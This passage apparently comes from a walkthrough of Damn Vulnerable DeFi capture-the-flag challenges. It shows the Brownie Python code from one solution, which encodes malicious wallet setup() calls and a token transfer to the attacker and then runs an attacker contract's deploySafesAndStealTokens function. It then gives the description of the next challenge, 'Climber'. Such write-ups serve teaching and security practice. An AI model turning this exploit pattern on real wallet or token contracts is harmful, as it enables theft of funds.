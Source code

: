 To generate the data for this calls I just used the `encode_input` method in Brownie:

+ `setup()` call

```py
# malicious calls list
malicious_setup_calls = []

# loop over addresses
for user in users: 

    # setup call encoding from master copy
    malicious_setup_calls.append(
        master_copy.setup.encode_input(
            [user],
            1,
            ZERO_ADDRESS,
            0,
            token.address,
            ZERO_ADDRESS,
            0,
            ZERO_ADDRESS
        )
    )
```

+ `transfer()` call

```py
token_stealing_call = token.transfer.encode_input(
    attacker.address, 
    AMOUNT_TOKENS_DISTRIBUTED // len(users)
)
```

And then just call the attacker contract function to do it all in one transaction:

```py
attacker_contract.deploySafesAndStealTokens(
    malicious_setup_calls, 
    token_stealing_call, 
    _fromAttacker
)
```

***

## Climber

#### Challenge description

>There's a secure vault contract guarding 10 million DVT tokens. The vault is upgradeable, following the UUPS pattern.
>
>The owner of the vault, currently a timelock contract, can withdraw a very limited amount of tokens every 15 days.
>
>On the vault there's an additional role with powers to sweep all tokens in case of an emergency.
>
>On the timelock, only an account with a "Proposer" role can schedule actions that can be executed 1 hour later.
>
>Your goal is to empty the vault. 
